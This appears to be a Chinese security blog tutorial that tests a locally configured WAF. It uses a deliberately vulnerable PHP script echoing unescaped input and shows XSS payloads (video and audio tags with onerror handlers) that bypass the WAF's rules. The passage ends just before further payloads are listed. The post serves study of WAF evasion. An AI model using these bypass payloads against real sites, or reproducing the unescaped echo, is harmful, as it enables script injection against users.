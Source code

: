 > 原文链接: https://www.anquanke.com//post/id/176185 


# 测试WAF来学习XSS姿势


                                阅读量   
                                **372285**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">4</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p1.ssl.qhimg.com/t0194774ed7732d55d3.png)](https://p1.ssl.qhimg.com/t0194774ed7732d55d3.png)



## 0x00 搭建环境

本地搭建测试waf测试，xss相关防护规则全部开启。

[![](https://p4.ssl.qhimg.com/t015487e91477aa6616.png)](https://p4.ssl.qhimg.com/t015487e91477aa6616.png)



## 0x01 Self-Xss绕过

测试脚本

```
&lt;?php   
    $input = @$_REQUEST["xss"];
    echo "&lt;div&gt;".$input."&lt;/div&gt;"
  ?&gt;
```

首先思路就是一些被waf遗漏的标签，暂时不考虑编码或者拼接字符串这类思路，我们直接拿来测试。

&lt;video src=1 onerror=alert(/xss/)&gt;绕过。

[![](https://p1.ssl.qhimg.com/t018f4d9d519a01b185.png)](https://p1.ssl.qhimg.com/t018f4d9d519a01b185.png)

类似的标签还有&lt;audio src=x onerror=alert(/xss/)&gt;

[![](https://p2.ssl.qhimg.com/t01efb3145f1177fc36.png)](https://p2.ssl.qhimg.com/t01efb3145f1177fc36.png)

除此之外以下几个payload都可以绕过。
